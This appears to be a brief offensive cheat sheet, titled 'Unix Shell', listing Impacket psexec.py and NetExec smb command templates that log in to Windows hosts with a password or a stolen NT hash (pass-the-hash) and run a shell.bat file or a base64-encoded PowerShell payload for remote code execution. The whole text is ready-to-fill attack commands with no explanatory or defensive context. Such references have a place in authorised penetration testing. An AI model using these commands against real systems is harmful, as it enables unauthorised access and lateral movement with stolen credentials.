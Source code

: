 # Unix Shell

## 01 - Impacket

- Authenticate via username and password

`$ psexec.py <domain_name>/<username>:<password>@<IP> -c shell.bat`

- Authenticate via Pass The Hash

`$ psexec.py <domain_name>/<username>@<IP> -hashes <LM>:<NT> -c shell.bat`

## 02 - NetExec

- Authenticate via username and password

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth] -x shell.bat

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain_name> | --local-auth] -x "powershell -E <base64_payload>"
```

- Authenticate via Pass The Hash

```
$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain_name> | --local-auth] -x shell.bat

$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain_name> | --local-auth] -x "powershell -E <base64_payload>"
```